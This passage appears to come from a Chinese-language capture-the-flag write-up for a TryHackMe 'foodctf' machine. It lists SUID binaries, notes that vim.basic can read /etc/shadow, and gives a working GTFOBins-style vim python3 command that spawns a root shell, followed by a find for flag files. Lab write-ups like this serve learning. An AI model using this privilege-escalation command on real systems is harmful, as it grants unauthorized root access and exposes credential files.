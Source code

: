 /snap/core/8689/bin/mount
/snap/core/8689/bin/ping
/snap/core/8689/bin/ping6
/snap/core/8689/bin/su
/snap/core/8689/bin/umount
/snap/core/8689/usr/bin/chfn
/snap/core/8689/usr/bin/chsh
/snap/core/8689/usr/bin/gpasswd
/snap/core/8689/usr/bin/newgrp
/snap/core/8689/usr/bin/passwd
/snap/core/8689/usr/bin/sudo
/snap/core/8689/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8689/usr/lib/openssh/ssh-keysign
/snap/core/8689/usr/lib/snapd/snap-confine
/snap/core/8689/usr/sbin/pppd

```

我们留意到```/usr/bin/vim.basic```这个SUID有点特别，尝试用他打开```/etc/shadow/```,居然可以成功打开

也就是说vim.basic其实是等价于vim的，因此我们可以利用它提权到root

根据[gtfobins](https://gtfobins.github.io/gtfobins/vim/)上关于vim使用SUID提权指令，我们稍微修改一下：

```
ramen@foodctf:/tmp$ /usr/bin/vim.basic  -c ':python3 import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
Erase is control-H (^H).
# id
uid=1003(ramen) gid=1003(ramen) euid=0(root) egid=0(root) groups=0(root),1003(ramen)
# whoami
root
# 

```

成功提权到root，由于我们已经拿到root权限，因此我们可以读到任意flag文件。
```
# find / -name *flag* -type f 2>/dev/null          
/proc/sys/kernel/acpi_video_flags
/proc/kpageflags
/root/flag
/home/tryhackme/flag7
/home/bread/flag
/home/food/.flag
/var/flag.txt
/var/lib/mysql/debian-5.7.flag
```